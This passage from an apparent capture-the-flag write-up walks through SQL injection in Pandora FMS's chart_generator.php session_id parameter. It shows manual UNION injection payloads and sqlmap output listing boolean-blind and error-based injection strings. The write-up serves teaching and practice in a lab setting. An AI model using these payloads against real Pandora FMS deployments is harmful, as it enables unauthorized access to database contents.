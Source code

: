 The injections is in `/include/chart_generator.php`. It passes
`$_REQUEST['session_id']` to the constructor for a `PandoraFMS\User` object,
and that is not sanitized.

#### UNION Injection POC

What’s neat about `$_REQUEST` is that it will try to pull from GET, POST, and
cookies. I played with this a good amount in [Beyond Root for
OpenKeyS](/2020/12/12/htb-openkeys.html#php-_request). I suspect the intended
use here it to get the cookie, but to make it easier to attack, I can put my
attack in a GET parameter (in the URL).

`/include/chart_generator.php` returns a 404, but I’ll notice that visiting
`/` redirects to `/pandora_console`.
`/pandora_console/include/chart_generator.php` returns a denial:

![image-20220519105738076](https://0xdfimages.gitlab.io/img/image-20220519105738076.png)

I’ll add `?session_id='` to the end, and it returns an SQL error:

[![image-20220519105847430](https://0xdfimages.gitlab.io/img/image-20220519105847430.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220519105847430.png)

This is vulnerable to a UNION injection. If I try `session_id=' union select
1;-- -`, it complains about the number of columns being wrong:

[![image-20220519110142054](https://0xdfimages.gitlab.io/img/image-20220519110142054.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220519110142054.png)

Increasing the number of columns in the union, at `session_id=' union select
1,2,3;-- -` it works:

![image-20220519110116404](https://0xdfimages.gitlab.io/img/image-20220519110116404.png)

#### sqlmap

I’ll point `sqlmap` at this and it finds UNION injection but decides it can’t
exploit it. It does find boolean, error-based, and time-based injections:

    
    
    oxdf@hacky$ sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 334 HTTP(s) requests:
    ---         
    Parameter: session_id (GET)             
        Type: boolean-based blind
        Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
        Payload: session_id=1' RLIKE (SELECT (CASE WHEN (9034=9034) THEN 1 ELSE 0x28 END))-- dJJc
    
        Type: error-based
        Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: session_id=1' OR (SELECT 1447 FROM(SELECT COUNT(*),CONCAT(0x716b627671,(SELECT (ELT(1447=1447,1))),0x716a787671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- wMuR
    